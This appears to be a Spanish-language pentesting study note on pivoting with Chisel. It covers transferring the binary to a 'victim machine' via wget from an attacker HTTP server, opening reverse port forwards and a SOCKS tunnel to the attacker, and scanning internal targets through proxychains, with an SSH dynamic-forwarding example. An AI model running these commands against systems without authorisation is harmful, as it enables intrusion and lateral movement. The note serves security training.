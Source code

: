 ## Chisel 

Tags: #Chisel #PortForwarding #LocalForwarding #DinamicForwarding 

## Local Port Forwarding 

Nos permite redirigir todo el trafico entrante de un puerto local hacia un puerto remoto.

* **Server -> Windows** 
* **Cliente -> Kali**

### Forma 1 de descarga
Ingresamos a la pagina para descargarnos 'Chisel'
```python 
❯ https://github.com/jpillora/chisel > Releases > 'chisel_1.9.1_linux_amd64.gz' 
❯ gunzip chisel.gz
❯ chmod +x chisel
```

### Forma 2 de descarga

1. Podemos clonarlo a nuestra maquina victima 
```bash
❯ git clone https://github.com/jpillora/chisel       # Nos descargamos el Chisel
```

Dentro de Chisel 
```bash
❯ go build -ldflags “-s -w” .                        # Nos ayudara a reducir el tamaño del compilado 
❯ upx Chisel                                         # Para reducir aun mas el tamaño
```

2. Debemos transferirlo a la maquina victima mediante un servidor HTTP 
```bash 
❯ python3 -m http.server 80    # Maquina de atacante 
❯ wget http://IP/chisel        # Maquina victima 
```

3. Lo ejecutamos de la siguiente manera 
* De esta manera nos podemos traer un puerto especifico
```bash
❯ ./chisel server --reverse -p 1234                                                 # Server 'Maquina de atacante'
❯ ./chisel client <IP-Server>:1234 R:<Port-Local-a-Abrir>:<IP-Local>:<Port-Traemos> # Cliente 'Maquina victima'

	# R = Remote Port Forwarding
	# IP-Server = IP de la maquina atacante
	# Port-Server = Puerto de la maquina atacante
	# Port-Local = Puerto que vamos a traer de la maquina victima
	# IP-Local = IP del Localhost de la maquina victima 
	# Port-Traemos = Puerto que vamos a abrir en nuestra maquina
```

* De esta manera nos crea un túnel desde la maquina de atacante hacia la maquina victima
```bash
❯ ./chisel server --reverse -p 1234                                             # Server 'Maquina de atacante'
❯ ./chisel client <IP-Server>:1234 R:socks                                      # Cliente 'Maquina victima'

	# R = Remote Port Forwarding
	# IP-Server = IP de la maquina atacante
	# Port-Server = Puerto de la maquina atacante
     # socks = Abre el puerto 1080 de nuestra de atacante y nos crea un tunel para llegar a la maquina victima 
```

Debemos de hacer los siguientes cambios después de crear el túnel 
```bash 
❯ nano /etc/proxychains.conf 

# Comentamos el Dinamic_chain, este solo se habilita cuando vamos pasando por varios tuneles
# Activamos el strick_chain, este solo es cuando tenemos un tunel 
# Hasta abajo del archivo agregamos lo siguiente:

sock5 127.0.0.1 1080 
```

Forma de verificar y de como debemos de ir colocando los comandos en nuestra maquina de atacante.
* Siempre debemos de usar **'proxychains'** antes de cada comando
```bash 
❯ seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n ❮Target IP❯ 2>&1 | grep "tcp open"      # Proxychains nos ayudara que el comando pase por el tunel creado por chisel 

	# P = Tareas en paralelo

❯ proxychains whatweb ❮Target IP❯     # Escaneo con whatweb a la maquina victima 
```


## Dinamic Port Forwarding 

Modificaremos:
```bash
❯ nano /etc/proxychains.conf                            # Modificaremo este archivo en nuestra maquina
	socks4 127.0.0.1 1080                              # Haremos que la conexion para nuestra maquina se efectue en el puerto 1080
```

```bash
❯ ssh < user>@< IP> -D 1080                             # Para conectarnos por ssh (D=Dinamic Port Forwarding) y colocamos el puerto que anteriormente habiamos configurado.
❯ proxychains vncviewer -passwd secret 127.0.0.1:5901   # Nos conectamos por vncviewer y nos arrojara el cuadro remoto de la conexion (5901=puerto remoto expuesto en la maquina victima)

	# secret -> Archivo que contiene la passwd para la conexion
```